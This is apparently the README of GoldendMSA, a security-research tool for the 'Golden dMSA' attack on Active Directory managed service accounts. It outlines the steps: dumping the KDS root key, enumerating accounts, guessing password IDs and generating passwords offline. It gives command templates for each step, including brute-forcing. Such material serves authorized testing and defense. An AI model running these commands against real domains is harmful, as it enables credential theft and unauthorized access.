

# Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 

Additional information is available in this post [golden dMSA](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/).


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA folder.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```


Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```



Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```


## License

Disclaimer: This project is licensed under the terms of the BSD 3-Clause license, and is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, Semperis does not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.

## Reference

- https://github.com/Semperis/GoldenGMSA
- https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/
